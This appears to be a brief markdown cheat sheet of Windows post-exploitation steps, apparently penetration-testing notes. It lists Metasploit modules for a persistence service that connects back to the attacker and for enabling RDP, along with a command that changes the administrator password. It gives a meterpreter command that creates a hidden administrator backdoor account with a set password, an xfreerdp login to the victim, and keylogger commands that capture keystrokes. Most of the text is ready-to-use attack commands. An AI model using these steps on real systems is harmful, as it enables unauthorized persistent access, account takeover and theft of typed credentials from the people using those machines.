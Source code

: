 # Useful Metasploit modules

- exploit/windows/local/persistence_service
	- creates service that continuously connects back to attacker.
	- run multi/handler with required payload parameters ^
	![msf module](./images/persist-01.png)
	![msf module](./images/persist-02.png)	
	￼
- post/windows/manage/enable_rdp
	- net user administrator hacker_123321 : change admin password
	- use xfreerdp to connect to victim from attacker
	![msf module](./images/persist-03.png)
		

# Backdoor User Account

- meterpreter: run getgui -e -u muku -p hacker_123321 
	- enables rdp service
	- creates new user with the provided parameters
	- hides user from windows login screen
	- adds user to Remote Desktop Users and Administrators group.
	- on attacker machine - xfreerdp /u:muku /p:hacker_123321 /v:<target_ip>

# Keylogger

- in meterpreter, migrate to explorer.exe process
- keyscan_start : start keylogger
- keyscan_dump : print captured strokes